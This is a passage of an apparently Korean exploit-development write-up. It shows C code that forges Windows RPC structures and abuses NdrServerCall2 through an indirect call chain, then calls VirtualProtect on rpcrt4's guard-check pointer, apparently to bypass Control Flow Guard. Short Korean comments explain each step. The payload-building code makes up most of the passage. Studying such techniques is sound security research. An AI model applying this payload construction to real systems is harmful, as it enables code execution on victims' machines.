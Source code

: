 ```C
			//Param = (char*)&(pRpcMsg->Buffer) + 0x20 + *(short*)&ProcString[0x10 * i + 4];
			for (int j = 0; j < pRpcMsg->BufferLength / 0x4; j++) {
				Param[j * 3] = 0x8 | 0x40;//flag, used in Unmarshaling
				Param[j * 3 + 1] = j * 4;//Stack Index of parameter
				Param[j * 3 + 2] = 8;//Size of Param
				ProcStringCursor += 6;//add params len
			}
		}
		else printf("\t[+] Param Info: No param\n");

	}
```

### RPC Structures
`NdrServerCall2`에 필요한 RPC 구조체들을 초기화하는 부분입니다. 페이로드 상에서 노드보다 뒤에 위치합니다. 간접 호출 루프를 시작할 수 있도록 `_listChanges`를 1번째 노드로 설정하고 마지막 노드에서는 첫 번째 노드의 `_LIST_ENTRY`를 가리키게 만들었습니다.

```C
	pRpcMsg = payload;
	pRpcMsg->Buffer = (__int64)pRpcMsg->Buffer | (0x7 << 0x18);// for vm::onprepare's error check
	VideoDirtListenerOffset[0xb8/0x8] = start + 0x150;//init _listChanges
	node = payload + 0x100 * 3;//last indirect call loop
	node[0x58 / 8] = start + 0xb0;//escape loop


	char* trailer = payload + 0x100 * INDIRECT_CALL_CHAIN_LEN;
	__int64* indirectCallTable = trailer, * buffer = NULL;
	MIDL_STUB_DESC *pDesc = (PMIDL_STUB_DESC) (indirectCallTable + INDIRECT_CALL_CHAIN_LEN);



	pDesc->pMallocFreeStruct = 0;
	pDesc->Version = 0xb000;

	pMidl = (PMIDL_SERVER_INFO)(pDesc + 1);
	pMidl->DispatchTable = DispatchTable;
	pMidl->ProcString = ProcStringAddress;//vaild address
	pMidl->FmtStringOffset = FmtStringOffsetAddress;//vaild address
	pMidl->pStubDesc = MidlStubDesc;//vaild address
	pMidl->ThunkTable = NULL;

	pServerInterface = (PRPC_SERVER_INTERFACE)(pMidl + 1);
	pServerInterface->InterpreterInfo = MidlSrvInfo;
	pServerInterface->Flags = 0;//to avoid NdrStubCall2 line 354's branch

	memcpy(payload + (vftable - VideoDirtListener), VideoDirtListenerEntries, 8 * ENTRY_LEN);
```

### Setting Arguments
`DispatchTable`에 호출될 함수의 주소를 저장하고 노드 별로 버퍼에 호출될 함수의 인자를 설정해줍니다.
```C




	//avoid Exception NdrStubCall2 & NdrpServerUnmarshal
	//NdrStubCall2 line 417
	//NdrpServerUnMarshal line 411
	indirectCallTable[19] = KernelBase_VirtualProtect;

	//call VirtualProtect(rpcrt4!_guard_check_icall_fptr, 0x8, 0x4, `some writable address`);
	indirectCallTable[1] = KernelBase_VirtualProtect;

```